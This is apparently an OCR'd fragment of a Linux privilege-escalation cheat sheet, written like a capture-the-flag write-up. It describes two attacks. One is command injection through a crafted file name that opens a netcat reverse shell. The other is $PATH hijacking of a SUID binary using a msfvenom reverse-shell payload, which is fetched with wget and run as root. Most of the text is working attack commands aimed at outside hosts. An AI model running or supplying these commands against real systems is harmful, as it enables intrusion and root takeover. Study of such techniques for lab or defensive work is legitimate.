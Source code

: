```
?>
```

### Exploit:

The line “exec(“nohup /bin/rm -f $path$value > /dev/null 2>&1 &”);” will check a folder that we control. Something like “nohup /bin/rm -f file.php”. But if we somehow can insert a command after file.php(“nohup /bin/rm -f file.php;whoami”) the command will get executed. Example to get reverse shell:
```
touch --';nc -c bash 10.10.14.15 443;.php'
```

## Exploiting $PATH 
With strings command, We can see the application executing a builtin system command. It will search the command in all directory specified in the Environment variable. To exploit this vulnerability we just need to export the directory where we have write permission!. The requirement is the app needed to be SUID as root.
```
$ find / -perm -u=s -type f 2>/dev/null
.
.
.
/usr/bin/chfn
/usr/bin/mtr
/usr/bin/at
.
.
.
/usr/local/bin/weirdapp

$ strings /usr/local/bin/weirdapp
.
.
.                                                                                                                                              
$ cp /home/user/update.txt /var/www/html/
.
.
.
```
In Kali generate payload,transfer to victim machine and start nc:
```
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.11.12 LPORT=443 -f elf > cp
$ python3 -m http.server 80
$ nc -lvp 443
```
On Victim Machine:
```
$ wget 10.10.10.14/cp -O /tmp/cp
$ export PATH=/tmp:$PATH
$ /usr/local/bin/weirdapp
XXD 
```
Found it when i searched for SUID file with this command:
```
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
```
